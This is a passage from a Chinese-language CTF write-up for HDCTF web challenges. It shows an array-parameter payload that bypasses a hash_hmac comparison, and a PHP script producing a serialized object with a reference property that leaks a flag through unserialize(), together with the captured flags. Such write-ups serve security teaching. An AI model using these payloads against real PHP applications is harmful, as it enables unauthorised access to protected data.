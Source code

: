 HDCTF{17aa1305bbdedaf12d4a1be87cc66d2f}

# hash_hmac

hash_hmac 遇到数组返回空，本题与数组绕过 md5 同理

payload

```
x[]=1&y[]=2
```

得到 flag 地址 fllllllllllllag.php

HDCTF{9416f5bfeb51f5e788f30840a6b1d601}

# simple_trick

给出了源码

```php
<?php 
highlight_file(__FILE__); 
include('flag.php'); 
$a = $_GET['a']; 
$b = unserialize ($a); 
$b->c = $flag; 
foreach($b as $key => $value) 
{ 
        if($key==='c') 
        { 
                continue; 
        } 
        echo $value; 
} 
?> 
```

使用引用赋值（浅拷贝）绕过恒等，让实例化对象的其他属性也指向 c 的位置，即可输出 flag

payload

```php
<?php
$x = new stdClass();
$x->c = 'x';
$x->hit = &$x->c;
echo urlencode(serialize($x));
```

结果：`O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A1%3A%22c%22%3Bs%3A1%3A%22x%22%3Bs%3A3%3A%22hit%22%3BR%3A2%3B%7D`

HDCTF{090bdba467fe4f4f6bd720b50602eca1}

# warmup
